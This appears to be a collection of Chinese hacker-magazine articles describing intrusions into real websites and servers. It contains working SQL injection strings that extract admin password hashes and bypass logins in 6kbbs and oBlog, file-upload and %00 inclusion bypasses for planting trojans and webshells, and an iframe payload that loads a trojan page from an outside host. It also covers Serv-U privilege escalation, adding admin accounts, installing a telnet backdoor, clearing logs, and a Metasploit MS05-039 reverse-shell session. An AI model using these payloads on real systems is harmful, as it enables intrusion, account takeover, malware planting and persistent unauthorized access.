既然找到了突破口，接下来要做的就是如何突破了。注册一个用户，打开“社区银行”页面，在其中的“我要转帐”中“转帐”钱数中输入 1 元，在“给”的输入框中输入 `x' or '1'='1`（无双引号），这里用单引号闭合了 SQL 语句中的单引号，并用 or 使条件成立。点击“转帐”，弹出如图2成功提示：“恭喜！转帐成功，系统已自动发信通知了您的朋友 x' or '1'='1!” ，没有出现任何错误，看起来可以构造一些语句。


图1


图2

接下来就用 union 语句来显示管理员的密码！于是写了一条 union 语句：`admin' union select name,password from [user] where name='admin'`。（注意：最前面的那个用户名一定要是论坛中存在的，也可以是自己的用户名，如果是不存在的用户名，在 union 语句中还无所谓，但在使用后面所构造的语句时，用户名不存在就会出现“类型不匹配：'ccur'”的错误！）提交了 union 语句，却出现了如下错误提示：


出错的原因可能是使用了单引号绕过了前面的检查，但在更新数据库时却因为找不到构造的用户名而无法更新，所以便出现了错误。又捣鼓了半天，也没有成功，看来 union 语句是没戏了！此路不通，那就使用另一种方法——猜解法！也就是 SQL 注入的基本方法！例如：查询论坛管理员 admin 的密码是不是 16 位（这里只是举例子，因为 6kbbs 的密码都是用 md5 加密的，当然是 16 位了）。构造一个语句如下：

```sql
admin' and 1=(select count(*) from [user] where len(password)=16 and name='admin') and '1'='1
```

如果弹出成功转帐提示，说明 admin 用户的密码是 16 位。接着再把语句中 `len(password)=16` 改为 `len(password)=17`，提交后出现以下错误：


> 删除所请求的操作要求一个当前的记录。  
> `/6k/bbs/bank.asp`，第63行

经过前面这些弯弯曲曲的探路，基本上掌握了这个漏洞的利用方法。下面就可以猜解指定用户的 md5 值了。在查询 6kbbs 的数据库后得知，用户密码的 md5 值是由数字和小写字母组成的，它们的 ASCII 值范围分别是：数字 0-9 为 48-57，字母 a-z 为 97-122。如猜测用户 admin 的 md5 值第一位是否为数字？语句如下：

```sql
admin' and 1=(select count(*) from [user] where asc(mid(password,1,1))<58 and name='admin') and '1'='1
```

如成功转帐，则 md5 值的第一位是数字；如出现错误则说明第一位是字符。在判断出数字或字符后再采用折半的方法猜解，也就是三四次就可以猜到 md5 值了，猜完整个 md5 值也就是二三十分钟的时间。不过，猜测成功是要花钱的，每次按你转帐的值来计算，最低是 1 元……（小提示：6kbbs 的 md5 值中数字占的比重较大一点）。

### 三、实战演习

因为这一漏洞是出在 6kbbs 美化版的银行插件中，所以我们在网上搜索相关网站时就搜索这样的关键字“Powered By: 6kbbs 美化版”，确定目标后，就可以开始测试了。

- 1. 注册一个用户 `colcol`，然后登录论坛，首先点击“会员功能”中的“用户列表”，在其中查找论坛管理员的名称……如这里得到管理员名为“popo”。

- 2. 打开“娱乐”中的“社区银行”，新注册的用户默认送给 51 元现金、20 元存款。在“我要存钱”中将所有现金全部存入，有了钱就好办事了（如图3）。


- 3. 为了突破狭小的用户名输入框，我做了一个本地提交页面 `bank.htm`（如图4），只需将源文件中 action 后的网址替换为测试论坛地址即可。


- 4. 准备工作就绪，在 `bank.htm` 中输入语句开始猜测管理员密码。先判断是否为数字，输入：

```sql
colcol' and 1=(select count(*) from [user] where asc(mid(password,1,1))>57 and name='popo') and '1'='1
```

提交后出现错误页面，看来第一位是数字。接着将 57 改为 52 再提交，仍是错误；再改为 50 提交仍错；可知该值小于等于 50。继续测试 48、49、50，测试 50 时出现成功转帐，据 ASCII 值对应关系换算出 50 对应的是 2。

接着猜第二位，将 `mid(password,1,1)` 改为 `mid(password,2,1)`，按前面方法猜测，得出第二位 ASCII 值是 57，对应 9。再把 2 改为 3 猜第三位……猜出管理员 popo 的 md5 值 `291c9fff691f387d`。

- 5. 本来想利用 cookies 欺骗，帮管理员发一些帖子；但修改 cookies 后发现除了前台用户名显示变化外并没有后台权限。于是去验证前后台密码是否一致。在 `bank.htm` 中输入：

```sql
colcol' and 1=(select count(*) from admin where password='291c9fff691f387d' and name='popo') and '1'='1
```

提交后成功转帐，看来后台和前台密码是一致的。

- 6. 有了 MD5 值，就用 md5 破解工具试一下。没想到这个管理员的密码这么容易破解，密码为 5。然后访问 `admin.asp`，输入管理员名称及密码，大概率就进入了 6kbbs 后台。


- 7. 在论坛常规设置中，将允许上传类型中的 `png` 改为 `cer`（如图6），保存修改。若上传仍受限，需要把目标用户论坛积分改成大于 10。


- 8. 接下来上传扩展名为 `cer` 的木马（如图7）。在帖子内容中会显示上传文件名及路径，将文件名拼到地址中，因上传目录是 `upload/`，例如：`http://www.***/bbs/upload/2005**-****-用户名.cer`。


# 一个人的战争

### Blog的噩梦
**于寂孤城**

现在的博客可谓是如日中天，还自称是“互联网的第四块里程碑”，不管是菜鸟还是大虾，都赶时髦做了一个个人博客。既然如此，我也来赶赶时髦，研究一下博客的漏洞。期末考试刚刚结束，我就下了套 oBlog 2.52 来研究，我读啊读、找啊找，终于让我找到一个大漏洞。


问题出现在 inc/function.asp 的 CheckUserLogined() 函数中，大家来看如下代码：

```vb
function CheckUserLogined()
  dim Logined,PassWord,rsLogin,sqlLogin
  Logined=True
  UserName=DecodeCookie(Request.Cookies(cookiesname)("UserName"))
  PassWord=DecodeCookie(Request.Cookies(cookiesname)("PassWord"))
  userlevel=DecodeCookie(Request.Cookies(cookiesname)("userlevel"))
  if (isnumeric(userlevel)) then userlevel=cint(userlevel)
  if UserName="" then Logined=False
  if PassWord="" then Logined=False
  if Logined=True then
    username=ReplaceBadChar(trim(username))
    ' ... SQL 查询逻辑 ...
  end if
  CheckUserLogined=Logined
end function
```

```vb
'CodeCookie.vbs（片段）
For i = Len(Str) To 1 Step -1
  StrRtn = StrRtn & Ascw(Mid(Str,i,1))
  If (i<>1) Then StrRtn = StrRtn & "a"
Next
CodeCookie = StrRtn

'DecodeCookie.vbs（片段）
str=inputbox("")
Dim i
Dim StrArr,StrRtn
StrArr = Split(Str,"a")
For i = 0 To UBound(StrArr)
  If IsNumeric(StrArr(i))=True Then
    StrRtn = ChrW(StrArr(i)) & StrRtn
  Else
    StrRtn = Str
  End If
Next
DecodeCookie = StrRtn
```

看到了吗？在判断用户登录时只有 UserName 经过了 ReplaceBadChar() 检查，Password 却直接被放到了语句中查询，而 UserName 和 Password 都取自 Cookies，我们当然可以做手脚了！很明显的注入漏洞啊！而且 CheckUserLogined() 是个很关键的函数，到处都在调用。

Wait，还有个 DecodeCookie。UserName 和 Password 从 Cookie 中取出时还要经过 DecodeCookie 解密；相应地也有个加密函数 CodeCookie。所以，我们构造的 Cookies 也必须是加密之后的。

工欲善其事，必先利其器！我们先按照它的算法来写两个加密和解密的小程序：CodeCookie.vbs 和 DecodeCookie.vbs。

好了，开始测试！我用的是某市一个非常出名的网站进行测试。调用 CheckUserLogined() 的页面到处都是，这里就用 message.asp 实验。message.asp 是给别人 blog 留言的页面。先用工具修改 Cookie，构造 Password 注入值，随后发布“你好”的消息，如图1。


```vb
'CodeCookie.vbs（下方续）
str=inputbox("")
Dim i
Dim StrRtn
'...
```

注意看留言者变成了 admin。为什么会这样呢？因为经过我们改动后的 Cookies 放到 CheckUserLogined() 中就成了：select * from [user] where lockuser='false' and Username='cdsb' and UserPassword='a' or 'a'='a'，而在逻辑运算符中 and 的优先级比 or 高，所以程序会先处理 and 并提取 or，那语句就成了“假 or 真”，学过高一数学的人都知道“假 or 真=真”。所以就成功绕过去了。这样绕出来的用户不是特定的一个而是所有的（你在查询分析器里试试就明白了），但 admin 是 user 表中的第一个用户，所以你的身份就成了 admin。

现在来看管理员密码，刚开始我想的是用 union 查询，但是老是动不了。后来才想起可以让它转换数据类型出错后自己暴出来，我真笨！

打开 DecodeCookie.vbs，也会弹出个框框。把正常登录时的 Cookies 中的 Password 值 copy 过去，点确定，出来了：931b77e2e9192ef5。这是什么？这就是用 MD5 加密后的你的密码呀。

```
把Cookies中的Password改成“931b77e2e9192ef5' and 1<(select userpassword from [user] where userid=1)--”
```

（当然，要先用 CodeCookie.vbs 加密这句），放到原句中成了“select * from [user] where lockuser='false' and Username='cdsb' and UserPassword='931b77e2e9192ef5' and 1<(select userpassword from [user] where userid=1)--'”，记住后面有个“--”，是为了把最后的那个“'”注释掉。刷新一下，如图2。


图2

怎么样？暴出来了吧，密码是：d1ff837456669b30，放到 MD5Crack3 里去跑了跑，6位数字、7位、8位都没跑出来，没办法只有改他的密码了（本来不想这样做的，谁叫他这么可恶，居然不用弱口令，呵呵）。

```
将Password设为“931b77e2e9192ef5' update [user] set userpassword='931b77e2e9192ef5' where username='admin'”
```

这样就把 admin 的密码改成和我的一样了。用 admin 登录，如图3。


图3

这时可以修改 admin 的 blog 了（其实进入 admin 的 blog 后台不用那么麻烦，因为 blog 后台 user_index.asp 也是用 CheckUserLogined() 函数来判断身份的。直接进入自己的 oblog 后台再把 password 值改成“a' or 'a'='a”，刷新一下就成了 admin 的 blog 后台了，我是为了试验 update 和暴数据的可能性才这么绕了一大圈的），事后我将 admin 的密码改回来了，你问我为什么进 admin 的 blog 后台？因为 blog 的“公告栏”那里是可以进行跨站攻击的！如果你只是为了打玩，可以在公告里加一些 script 语句让它弹些警告框，或者调用 window.location 把页面引到不该去的地方，可那就比较龌龊；你可以修改 Cookie 挂木马；如果你要更狠一些，我建议你去看看福娃鱼写的关于跨站的文章，他对这方面比较了解。关于跨站方面的攻击本文不做详细解释。

前台玩够了来玩后台，后台的用户名和密码是放在 admin 表中的。同样是在给“风吹草动”的 blog 留言的页面处，把 password 改成 931b77e2e9192ef5' insert into admin(username,password) values('cdsb','4727ee9395f324cd')--，刷新一下。

好，来到这里 http://blog.63**.com/admin_login.asp。这是 oblog 的默认管理登录地址，管理员没有更改默认地址，GOOD！输入 cdsb 和你的密码，可爱的后台出来了，如图4。


图4

后台能够玩的地方就更多了。如图5。


图5

好了，玩也玩够了，做为安全检测到这儿就可以了，就不再在 webshell 上下工夫了，闪人！既然可以执行构造语句，那么怎么利用全看你的想象力了。漏洞修补方法：在 inc/function.asp 的 CheckUserLogined() 函数中加上 password=ReplaceBadChar(trim(password)) 就行了。最后声明：坚决反对利用此漏洞搞恶意破坏。（文中涉及到的工具 MyBrowser、MD5Crack3 已经收录于当期光盘中）

### 免费看电影，他也行


### 一、技术

零点影院是一套广泛用于网吧的电影程序，但存在严重漏洞，可以通过上传得到 aspshell。一个是和动力 3.51 一样的上传漏洞，另一个是数据库过滤不严，可通过插入小马得到 shell。

### 二、漏洞分析

先来看 upfile.asp 文件中的上传验证代码：

```vb
if fileEXT="asp" or fileEXT="asa" or fileEXT="aspx" then
  EnableUpload=false
end if
if EnableUpload=false then
  msg="这种文件类型不允许上传"
  FoundErr=true
end if
```

从代码可知，只校验了扩展名，存在绕过空间。可上传如 cer、cdx，或通过空格/点等方式绕过 asp 限制。

### 三、漏洞利用之菜鸟篇

可用搜索引擎查找使用该程序的网站，随后从上传点开始利用。

- 1. **上传利用一**：使用上传构造页，第一项传图片，第二项传 asp 小马（如 `newmm.asp`），可在源码中定位马地址。
- 2. **上传利用二**：可用工具自动提交，一键上传拿 shell。


### 3. 数据库插小马利用

| 字段 | 内容 |
|---|---|
| 推荐级别 | ★★★★★ |
| 上传时间 | 2005-4-14 |
| 报告错误 | 点击“报告该影片有错误” |
| 观看次数 | 6653 |

部分站长会删上传页或打补丁，此时可利用数据库注入/插入小马。通过“报告错误”等入口构造提交内容，结合默认数据库路径可进一步获取 aspshell。

### 四、打造本地影院

拿到 shell 后可下载整站程序或数据库，搭建本地测试环境。文中举例将站点部署到 `wwwroot`，并通过本机地址访问；还提到用 Access 或 asp 木马改库、修改内网地址映射等操作。

### 五、漏洞修补

修补思路是替换/修改官方上传代码，重点涉及 `upfile.asp` 与 `upfile_class.asp` 两个文件。

```vb
sFileName = Mid(sInfo, iFindStart, iFindEnd - iFindStart)
oFileInfo.FileName = Mid(sFileName, InStrRev(sFileName, "\\") + 1)
oFileInfo.FilePath = Left(sFileName, InStrRev(sFileName, "\\"))
oFileInfo.FileExt = Mid(sFileName, InStrRev(sFileName, ".") + 1)
iFindStart = InStr(iFindEnd, sInfo, "Content-Type:") + 14
```

这是修复后的代码：

```vb
sFileName = Mid(sInfo, iFindStart, iFindEnd-iFindStart)
oFileInfo.FileName = trim(Mid(sFileName, InStrRev(sFileName, "\\")+1))
oFileInfo.FilePath = trim(Left(sFileName, InStrRev(sFileName, "\\")))
oFileInfo.fileExt = trim(Mid(sFileName, InStrRev(sFileName, ".")+1))
iFindStart = InStr(iFindEnd, sInfo, "Content-Type")+14
...
```

主要是把上传的文件路径、扩展名和文件名改成 trim，这样就可以杜绝空格和“..”类漏洞；并在原有上传限制基础上，进一步补充对 asp、asa、aspx、cer、php 等扩展的拦截，从而一定程度修复上传漏洞。

> （文中涉及到的动态文件、注入工具等已做处理）


# 小鱼修炼中

放假在家上网，偶然发现网站疑似被挂马，查看页面源代码后发现可疑文件名与木马特征，判断站点安全性较弱，开始进一步测试与分析。

在后台登录处尝试注入（如 `admin'or'='` 一类），发现可绕过登录进入后台，说明存在明显的身份认证漏洞。


## 简单获得 webshell

进入后台后观察到有上传与数据库备份等功能，尝试通过图片格式伪装与备份还原链路上传并恢复恶意脚本，最终拿到 webshell。


# 常见提权之路

拿到服务器权限后，先检查 WScript.Shell、FSO 等组件可用性，再查看关键服务与系统信息（如 `net start`），据此选择后续提权路径。

“系统服务信息”看，因为那样能看到路径和一些详细信息。仔细找啊找，发现服务器安装了 Serv-U（这个东西可是地球人都知道的，提权就数它最好了），如图7。


继续向下看，主机还开了 3389，如图8。


看来自管理员是用 3389 来管理服务器的，还能看出服务器是 Win2000。先不管那么多了，既然它有 Serv-U 那我们就直接用它提权，找找可写目录，试试名字最大的明星级目录 `c:\winnt\system32\inetsrv\data\`。可写，不愧是明星级的，传个 servU.exe 上去。要是它不可写怎么办呢？这里我再给出一些重点目录方便广大菜鸟提权时使用：

- `c:\Documents and Settings\All Users\「开始」菜单\程序\...`
- `c:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere\...`
- `c:\Program Files\serv-u\...`
- `c:\WINNT\system32\config\...`

> 提权重点目录总结

```text
c:\winnt\system32\inetsrv\data\
c:\everyone\
c:\pro
c:\Program Files\Java\Web Start\
c:\Documents and Settings\All Users\Documents\
c:\Program Files\
c:\Program Files\Microsoft SQL Server\
c:\Temp\
c:\mysql\
c:\PHP\
...
```

再来到海洋的 WScriptShell，运行 servU.exe 来加用户试试，好慢啊，等了 N 久之后竟显示 530 Not logged in，如图9。


郁闷，密码不对。看来管理员改了默认的“#!@$ak#.lk;0@P”密码，这个简单，我们只要下它的 servudaemon.exe 再用 ServU 本地密码查看器打开看看，找到修改的密码，再把 servu 的本地溢出程序重新编译一下就 OK 了，马上去下载它的 servudaemon.exe 到本地，怀着万分激动的心情用 servu 本地密码查看器打开，结果 555……让我更郁闷，如图10。


默认密码怎么还是 `#!@$ak#.lk;0@P?` 我特地复制到文本里跟溢出程序的默认密码对比了一下，一模一样，那么怎么可能不成功呢？难道中邪了？难道遇到传说中的人品问题？从 INI 文件中看看对方版本是 6.002 啊！

又传了个 chobits2.0.exe 到对方 data 目录下运行看看，还是不行，到底怎么回事？我还没遇过这么怪的事……


安装完 6.002 后突然发现这个版本比之前的多了一项功能，如图11，管理员可以通过这个功能轻松修改本地默认密码，这一设计就大大限制了我们的本地提升权限！

那么修改后的默认密码保存在什么地方呢？我在修改后仔细看了每个文件发现，在 `ServUDaemon.ini` 比以前版本多了一句 `LocalSetupPassword=`，如图12。

看来 6.002 中默认密码是通过这个来保存的！再想想那什么叫做才会是默认密码呢？我把 `ServUDaemon.ini` 中 `LocalSetupPassword=` 后面清空，再用默认密码 `#!@$ak#.lk;0@P?` 登录试试看，哈哈，成功了。


控制界面方便修改，修改后保存在 `ServUDaemon.ini` 中！

马上再次登录 webshell，到 servu 目录下打开 `ServUDaemon.ini`，试去掉 `LocalSetupPassword=` 后面的加密密码，晕……没有权限，怎么办呢？既然不能改，那我们干脆把它破了，如图13。复制上面的加密密码到 serv-u 破解工具中试试运气，如图14。

哈哈，密码是 `11111111`，真是简单啊！现在来提权，我用的是一个可以修改溢出时密码的工具 `myservu.exe`，格式 `myservu.exe 端口号 "命令"`。OK，txt 中分别写上用户名和密码！


限于篇幅原因我就不多说了，其实 Servu 实在不行的话可以试试别的方法！有什么不懂到论坛问我吧！

（本文中涉及到的程序 serv-u 本地管理口令获取器、serv-u ftp 密码暴力破解器、ASPServ-U 跳线穿透等密码爆破工具，海洋 2006 木马已经收录在线盘中）

# 一个人的战争

忘记是从什么时候开始写漏洞类的文章了，或许是本身就不擅长写入侵类的文章吧。前几天去中国站长网下载了一个文章管理、网络论坛，不到一小时就发现了一些问题，想了想，还是打算写一篇文章来说一下。就拿一套 php 文章系统和蓝色魔法与 phpwind 论坛的最新版来说明一下吧。


### 一、PKY Article

这是一款基于 php + 文本的文章系统，使用三个非 php 后缀为文本数据库，安全性很好。另外黑色海岸线就是使用这套 php 文本系统（漏洞已补）。

### 1. 漏洞存在原因

PKY Article 的 index.php 的第 9 行到第 13 行：

```php
$modules = isset($_HTTP_GET_VARS['modules']) ? $_HTTP_GET_VARS['modules'] : $_HTTP_POST_VARS['modules'];
// 提交 modules 的值，不管是 GET 还是 POST 的
if (!file_exists("./modules/$modules.php")) {
    $modules = "main";
}
```

假设不存在 ./modules/(modules 的值).php 这个文件，那么 modules 的值就直接等于 main。也就是假设我们提交 http://localhost/index.php?modules=hacker，就会检查 ./modules/hacker.php 是否存在（就是 modules 目录下的 modules 文件夹里有没有 hacker.php 文件）。

```php
$modules = "main";
...
require("./modules/$modules.php");
```

另外一些其他的程序也是这么写的，比如 CTB 最新的文本论坛的第 163 行。

```php
$mods = $_HTTP_GET_VARS['mods'];
if (!file_exists("./mods/$mods.php")) {
    $mods = "main";
}
require_once("./mods/$mods.php");
```

假设存在 ./mods/(提交的 mods 的值).php 就会包含进去，那么我们伪造一个 ../upfile/a.jpg%00，在 php 有漏洞的版本依然是可以被当作合法的文件包含进去的。

### 2. 漏洞利用的简单说明

由于这里限制了文件的最后后缀，必须是 .php 结尾，那么我们要包含一个文件的话必须是 php 结尾的。可以利用 %00 截断字符，例如提交 modules=../upfile/sai.jpg%00，即可让后面的 .php 被截断，实现对上传文件的包含。

假设写了 php 的一句话后门的话，是可以用 lanker 的一句话后门来控制的。记得“modules=”后面要带上你上传的任意文件名和“%00”。

### 3. 漏洞说明

这里我用到的是任意文件包含漏洞，由于它后面限制了 .php，所以并不是所有的 php 环境都可以，必须是 php 4.3.6—4.3.9 和 php 5.0.0—5.0.2 的 php 版本。


图 1


图 2

### 二、蓝色魔法论坛（最新文本和 mysql 版本）

### 1. 漏洞存在的原因

蓝色魔法论坛 mysql 版本第 146 行：

```php
if ($inhiddentopic <= $s) {
    $articlecontent = "[hidden=$postweiwang]".$articlecontent."[/hidden]";
}
```

在这里，只要允许使用威望贴，文章内容就变成了带 hidden 标签的内容。由于威望值前后没有被处理，读取帖子时会被拼接进标签中，造成可利用的跨站代码注入。

### 2. 漏洞利用（mysql 版本和 txt 版本）

就像上面说的一样，你可以跨站了。建议写 iframe。

你不懂得欺骗提交表单这样的事情，那么你做体力活挂马吧，怎么挂？……

发帖的时候威望写“0|<iframe frameborder=00 width=00 height=00 scrolling=no src=http://www.hackerxfiles.net/mm.html></iframe>”，那么你帖子的一开始会有个“|”。假设你想闭合这个“|”的话，你可以写成“0|<iframe frameborder=00 width=00 height=00 scrolling=no src=http://www.hacker.net/mm.html></iframe>[b][/b]”，后面的“[b][/b]”和最后多出来的“|”合成了“[b][/b]”，又由于这里面没有文字被加粗，所以这段代码就算是作废了。

### 3. php + txt 版本的利用

由于蓝色魔法论坛是以换行来判断是否是第一个帖子（回复帖子），又以“|”来分割帖子里的内容时，由于这个威望 $postweiwang 没有过滤，我们可以威望为“1]测试[hidden]||117416230|127.0.0.1|ran|checknox_____|none|none|none|（一个回车）哇，好帖！张三|”，这样提交帖子后，在你的原帖子后面就跟着一个张三的回帖，标题是“哇，好帖”，内容就是你原本帖子提交的内容。当然，你可以伪造论坛管理员的回帖，试问你挂完马的帖子，显示管理员的跟帖说此帖是好帖，不知道要骗死多少人……

读读发帖部分的地方，关于威望的处理，他们两家可是一样的。phpwind3.1 postnew.php 95 行：

```php
if($s_atc_requirervs=='1'){
  $atc_content='[hide='.$atc_lyrc.']'.$atc_content.'[/hide]';
}
```

在这里只给出代码大家分析一下就好了，发帖完毕文章为“[hidden=威望]文章内容[/hidden]”，由于这里一部分和上面一样，导致了可以进行任意跨站。

### 四、结语

以上就是我对这几款程序的分析。看来，随便找一套程序就用，实在是很不安全的行为。我先说清楚喔，那上面威望需要构造本地表单提交或是使用 NC 进行提交。另外就是要多谢一下凯文DD、HAKBan哥、x-sniffer哥的支持，否则就没有偶一直的努力，*^_^*

再就是，偶决定再也不写跨站了（是该好好地学习一些别的东西了）……——|| 要是有什么不明白的，欢迎来 www.hackerxfiles.net 论坛脚本漏洞那里进行讨论。

### phpwind 论坛（存在于老版本及新版本的）

漏洞和上面的一样，我就不 copy 一次了。大家可以自己去……

### 经典案例：2003 服务器

今晚刚考完单片机，回到宿舍，准备整理一下电控的资料，因为我的 40G 硬盘已经只剩下 300M 了。哎，穷人啊，买不起 80G 的，我最讨厌整理东西了，好麻烦的。不说了，这次整理电脑的资料，倒是给了我一个收获，让我对 2003 服务器的权限突破有一点点新的认识。大家想知道么？那就跟我来看看吧。

本来是这样的，以前刚学入侵，经常看到新的 web 漏洞出来，就立刻去试手，入侵了许多的网站，然后留下了许多 webshell，但是当时不会提升权限，也不会挂马，只会黑首页，嘿嘿，幼稚吧，不过谁都是这样走过来的。现在反正无聊，我就一个一个 webshell 去试验，看看还能不能用，还有很多都还可以用呢（可以看出中国的网管实在太懒了吧），不过权限都不怎么高。突然，遇到一个权限挺高的 webshell，好像是可以浏览的，但是 cmdshell 不可以用，而且还是 2003 的服务器，反正闲着也是闲着，不如黑黑服务器，呵呵。

网站的主页如图 1，是个短信网站来的，还是个挺大型的一个网站，用的是独立的服务器。不过我的 webshell 不是在这个站上，而是在它的论坛上。它的论坛是我以前入侵的，是个 aspx 论坛来的，而且不是用 80 端口访问的，而是用 8802 端口访问的，也不知道他这样是为什么。反正我现在手上是有站的 webshell，也不管那么多了，进入正题，如图 2，这就是我的 webshell（原来不是用渗透 2006 的，因为那 webshell 还是上一年拿下的呢，呵呵，没办法，网管懒）。首先当然是看看这是什么权限的 shell 啦，经过检测所有盘可以浏览，但是都没有写入的权限，如图 3。再来看 cmd 和 WScriptShell 可否用，如图 4，结果依旧不行，看来安全设置还是有做的。

唯有想办法找些可以写入的目录，上传 cmd 和提权工具啦。这里针对 2003 的服务器，我给出一些默认权限极高的目录列表给大家看看：


图 1

大家看看：

| 目录 | 权限 |
|---|---|
| `c:\php\***\Users` | 只读和运行 |
| `c:\php\uploadtemp` | Everyone |
| `c:\php\sessiondata` | Everyone |
| `c:\Program Files\GifSO`（如果有的话） | Everyone |
| `c:\Program Files\Oimac`（如果有这个目录） | Everyone |
| `c:\windows\temp` | Everyone |
| `c:\WINDOWS\Microsoft.Net\temporary\ASP.NET Files\Users` | 全部 |

这里我直接试验 `c:\windows\temp` 这个目录，可以上传（其余的大家自己试验）。于是就上传了一个 cmd.exe 和提权工具（serv-u.exe），先查看有什么用户。可是谁知道，我自己上传的 cmd.exe 竟然用不了，我真晕哦，难道是运行权限给去掉了？再试验一下那个 serv-u.exe，加个用户看看，如图 5。


图 6

太好了，cmd 可以用呢，而且我们还看到了开了 3389 端口呢。哈哈，再看看能否建立用户，可以的话，那就大功告成了。建立一个 admin 用户，成功了，如图 7。


图 2


图 3


图 7

呵呵，我是不是应该去买彩票呢？来吧，登录看看，（小菜：怎么登录？ME：倒，3389 登录器直接登录就是了啊。）在登录处，输入用户名 admin 和自己的设置，如图 8。点确定后，就成功进入这台服务器，如图 9。


图 4


图 8


图 5

依旧行不通，真气死我了。再把上面的几个目录试验了，还是不行。于是想到了以前的旧方法，试试看 php、cgi、木马啊，不过我得到的结果还是一样——失败了！正准备撤离的时候，回到首页，想回忆一下自己当初是怎么入侵，突然灵光一现：支持 aspx，那么找个 aspx 的木马看看权限如何？！听说，在 2003 中，若没有设置好，aspx 的木马权限是最高的，相当于 system。于是快快下载了个 aspx 木马，立刻放上去，成功使用，看看权限，如图 6。


图 9

接着就是好好保护这只肉鸡啦。说老实话，我是好久没有玩过 3389 了，所以一定要趁愉快。首先是克隆用户，这个不用我多说了，大家都很熟悉了，不会的翻翻以前的黑客文档杂志吧。其次，留后门，不然鸡跑了咋办？（克隆用户，装木马……你们自己选择了）这里因为我是内网，用反弹后门不方便！

就留个免杀的 telnet 后门好了（并且能穿越防火墙哦），这里再把这个后门给大家介绍一下吧——love66，配置很简单的，如图 10。配置好以后，再把生成的服务端上传到肉鸡上运行；然后本地在 CMD 下 telnet 对方 IP 52066 就可以了，最后别忘记清除日志，然后就可以走人啦。

总结：

- 第一，遇到 2003 服务器，首先观察它那些权限较高的目录，可否利用；
- 第二，试验 php、cgi、aspx 木马，很有可能比 asp 木马有更大权限，特别是 aspx 木马，因为 2003 系统默认它的权限很高（今天的突破口，很多 2003 的服务器都可以尝试此方法获得权限）；
- 第三，入侵后留后门，清除痕迹。


# 玩转 Windows Plug and Play

盖方明[-273℃@EST] 远程溢出（MS05-039）


### 一、漏洞介绍

继 MS05-038 出来没多久，更严重的漏洞 MS05-039 惊现于网络。该漏洞既可以被远程利用又可以用于本地提升权限，更为严重的是，该漏洞一旦被成功利用就会使攻击者获得 SYSTEM 权限，可见危害是非同小可。漏洞存在于 Windows 的即插即用组件里（Plug and Play），在 Windows 2000 系统中，攻击者可以通过使用匿名用户建立远程会话来触发此漏洞。在 Windows XP SP1 中要想远程触发此漏洞需要具有普通用户权限，而在 Windows XP SP2 以及 Windows Server 2003 中，则需要管理员权限才能远程触发。因此在这两个系统版本下我们只能利用此漏洞进行本地权限提升。本文将基于 Windows 2000 PRO SP4 中文版讲述该漏洞的利用过程。

```text
msf ms05_039_pnp>
```

下面看一下这个利用程序需要设置哪些选项，输入 info ms05_039_pnp，可以列出该漏洞模块的详细说明，我们重点看如下这段：


从这些信息可以得知，这个利用程序只针对 Windows 2000 SP0-SP4 的系统，而且我们要想利用这个程序必须要设置 RHOST 和 RPORT 两个参数，分别代表远程主机地址和远程端口（默认值是 139）。OK，让我们来设置一下吧。输入 set RHOST 192.168.0.2 来设置目标地址，端口默认即可，如图 1。

### 二、Metasploit Framework

早在 N 久前，网络中诞生了一个威力强大的工具——Metasploit Framework。该工具不仅仅是一个漏洞利用程序的集合，更重要的是它提出了一个思路：可以任意组合 exploit 与 shellcode 来满足不同需求。OK！言归正传，该漏洞的第一款 exploit 就是在 Metasploit Framework 中更新的。大家可以去官方网站下载较新的版本，并在安装后通过 MSFUpdate 进行在线更新。更新完毕后可以启动 MSF，输入 show exploits 找到 ms05_039_pnp，使用 use ms05_039_pnp 加载模块。


下面该选择使用何种类型的 payload 了（就是 shellcode），输入 show payloads 可以看到该漏洞能够使用的 payload 类型。我们选择一个比较简单的 win32_reverse，输入 info win32_reverse 可以看一下其需要的参数，如下：


PAYLOAD win32_reverse 就完成了该 payload 的加载，然后输入 `set LHOST 192.168.0.1`，设置好监听 IP，最后需要设置目标系统类型，输入 `show targets` 可以看到可用类型，这里只有一个 0，那么我们输入 `set TARGET 0` 来完成此项设置。都设置完毕后我们可以检查一下我们的设置：输入 `set` 直接回车就可以看到我们的当前设置，如图 2。

```text
msf > use ms05_039_pnp
msf ms05_039_pnp > set PAYLOAD win32_reverse
PAYLOAD => win32_reverse
msf ms05_039_pnp(win32_reverse) > set RHOST 192.168.0.2
RHOST => 192.168.0.2
msf ms05_039_pnp(win32_reverse) > set LHOST 192.168.0.1
LHOST => 192.168.0.1
msf ms05_039_pnp(win32_reverse) > set TARGET 0
TARGET => 0
msf ms05_039_pnp(win32_reverse) > set
```

图 2

设置完毕后，我们可以输入 `check` 命令来检测目标机器是否存在此漏洞，如图 3。

```text
msf ms05_039_pnp(win32_reverse) > check
[-] check command not found
msf ms05_039_pnp(win32_reverse) > check
[*] Detected a Windows 2000 target
[*] Sending the final DCE fragment
[*] This system appears to be vulnerable
```

图 3

看样子是存在此漏洞的，那么下面我们输入 `exploit` 命令来直接攻击，如图 4。并没有出现我们想要的 shell，再看一下测试机则出现了那个经典的 30 秒关机对话框。由此可以证明，漏洞肯定是存在的了，只是为什么没有溢出成功呢？

```text
msf ms05_039_pnp(win32_reverse) > exploit
[*] Starting Reverse Handler.
[*] Detected a Windows 2000 target
[*] Sending the final DCE fragment
[*] Exploit failed.
```

图 4

打开 MSF 的安装文件夹，找到 `\home\framework\exploits` 子目录，再打开 `ms05_039_pnp.pm` 文件。这是用 perl 写的一个模块文件（整个 MSF 都是基于 perl 的），有一处代码引起了我的注意，如下：

```text
Targets:
[ Windows 2000 SP0-SP4 (0x767a38f6) ] # umpnpmgr.dll
```

```text
Targets:
0 [ Windows 2000 SP0-SP4 (0x767a38f6)
1 [ Windows 2000 SP4 CN (0x7674366f) # umpnpmgr.dll
```

第二行就是我加的，`0x7674366f` 是我用 jmpesp.exe 工具在 umpnpmgr.dll 模块中查找的 `jmp ebx` 指令地址（该 exploit 采用覆盖异常的方式执行 shellcode，所以要找 `jmp ebx` 地址）。修改后保存，重新加载模块，设置 TARGET 时可用 `show targets` 查看，如下：

```text
msf ms05_039_pnp(win32_reverse) > show targets
Supported Exploit Targets:
0  Windows 2000 SP0-SP4
1  Windows 2000 SP4 CN
```

看到了吗？多了一项，那么我们就将 TARGET 设置为 1，然后再次输入 exploit 命令，成功了！我们得到一个 shell，在这个 shell 中我们可以为所欲为了！

```text
msf ms05_039_pnp(win32_reverse) > set TARGET 1
TARGET => 1
msf ms05_039_pnp(win32_reverse) > exploit
[*] Starting Reverse Handler.
